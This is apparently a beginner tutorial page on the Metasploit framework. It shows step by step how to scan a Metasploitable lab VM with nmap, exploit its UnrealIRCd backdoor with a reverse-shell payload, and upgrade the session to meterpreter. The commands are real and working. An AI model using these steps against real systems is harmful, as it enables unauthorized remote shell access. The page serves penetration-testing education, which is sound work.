 ```yaml
---
title: Metasploit framework
description: What is metasploit, what do we use it for and how can we use it. 
layout: ../../layouts/MainLayout.astro
---
```


## Setup before continuing

Go to [metasploitable vm setup](page-metasploitable)

## What is metasploit framework

The Metasploit Initiative is a computer security project that offers information on security vulnerabilities and assists in penetration testing and the building of IDS signatures. Rapid7, a security firm located in Boston, Massachusetts, owns it. 

The metasploit framework is a framework of tools which we can use to gain access on different networks and computer systems, one of the tools called msfconsole.

## What is metasploit framework used for

The Metasploit framework is a sophisticated tool that can be used by both cybercriminals and ethical hackers to investigate systemic vulnerabilities in networks and servers. It can be readily altered and used with most operating systems because it is an open-source framework. In this case we will be using it for ethical hacking and we are not responsible for what you use it for on your own.

## What's msfconsole?:
"msfconsole" is the primary interface to Metasploit Framework. You can use it to scan and exploit networks, servers, pcs etc. 
It provides an "all-in-one" centralized console and allows you efficient access to virtually all of the options available in the Metasploit
Framework.

The below example of how to use msfconsole is an example of exploiting the metasploitable VM which you can download at: [Download metasploitable 2017](https://information.rapid7.com/download-metasploitable-2017-thanks.html)

The exploit used here is targeted at port 6667 (irc). You can additionally scan with nmap for more ports and vulnerabilities.

Example to scan for more ports and vulnrabilities:
   
    sudo nmap -sV -sT --script=vuln ip_of_vm 

## how to install metasploit framework

The software should already be installed on the [Virtual Machine](page-3) that we setup previus

If the software is not installed on your machine I expect you to be able to install it yourself

## how to run msfconsole
To run the msfconsole tool you start by opening the terminal 
After opening the terminal you write the following in terminal
    msfconsole

Result of command: 
```markdown
msf6 >
```

A random metasploit tip + a random tool banner at the top

## What and how + examples:

You can use the "use" command to select exploits, scanners etc
example:

    msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor"

This is exploiting the "irc" service if it's running (port 6667). When the user have selected the exploit, you have to choose a payload.
Using the "set" command you can "set PAYLOAD"

example: 
    
    msf6 > set PAYLOAD cmd/unix/reverse

This will set the payload cmd/unix/reverse. A backdoor into the server getting cli access to cmd.
    
After we have told it which exploit and payload to use, we have to specify some other things.
With the command "show options" we can see what things we have to specify.

exmple:
```markdown
   msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options 
   Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   6667             yes       The target port (TCP)

  Payload options (cmd/unix/reverse):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

  Exploit target:
   Id  Name
   --  ----
   0   Automatic Target
```

This might seem scary at first becuase you don't know what all the variables mean and what you have to do with them

It says the Name of the things that has to be filled out like, LHOST, RHOST. This is your localhost which you can get by typing "ifconfig" and then       
looking at the inet. fx could look like: inet 192.168.0.x (x is your last numbers of your local network)


Then there is RHOST, which is the remote host. This is the ip address of the website, server or target machine that we are exploiting.

so just like we do "set PAYLOAD" we do the same for LHOST and RHOST

example:

    msf6 > exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOST xx.xx.xx.xx (xx.xx.xx.xx is the target ip that you put in there)

Setting the LHOST (localhost / local network ip)

    msf6 > exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.0.xx 
    
Now it should look something like:

```markdown
Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  Target ip address here             yes       The target host(s)
   RPORT   6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  Your local host here     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Notice that the LHOST and RHOST has changed

After we have set LHOST and RHOST for this exploit, we can do the next step which is starting the exploit by just typing "exploit" into the command line.
example:

    msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit 


## Upgrading a metasploit session ( more advanced than beginner)

Upgrading any session.


In the example above we exploit and hack into the server with an irc backdoor exploit. This is great, but if we want some more options and commands to play with we can upgrade the session by pressing ctrl + z (If you are in the current shell session with the first exploit) and it will return you to the msfconsole command line. now you can type "sessions" to see active session, after that look at the session number. Type in session -u session_num to then upgrade it and get a meterpreter session. Activate the session by typing "session session_id" and then it get you into a new cli. Here type "help" to see the extra commands you now can use.